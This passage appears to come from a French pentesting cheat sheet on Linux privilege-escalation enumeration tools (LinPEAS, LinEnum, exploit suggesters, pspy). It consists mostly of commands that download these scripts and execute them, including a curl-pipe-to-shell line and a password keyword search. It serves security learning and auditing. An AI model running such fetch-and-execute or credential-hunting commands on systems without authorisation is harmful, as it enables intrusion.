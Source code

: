 ## 🛠️ Outils d'Énumération Automatisés

### **LinPEAS - Linux Privilege Escalation Awesome Script**
```bash
# Téléchargement et exécution
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Ou version locale
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# Avec sortie dans fichier
./linpeas.sh | tee linpeas_output.txt
```

### **LinEnum**
```bash
# Téléchargement
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh

# Exécution avec options
./LinEnum.sh -t -k password -r report.txt
```

### **Linux Exploit Suggester**
```bash
# Version bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

# Version Perl (plus détaillée)
wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl
perl linux-exploit-suggester-2.pl
```

### **pspy - Monitor sans root**
```bash
# Surveiller les processus lancés par d'autres utilisateurs
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
chmod +x pspy64
./pspy64
```

## 🔧 Post-Exploitation

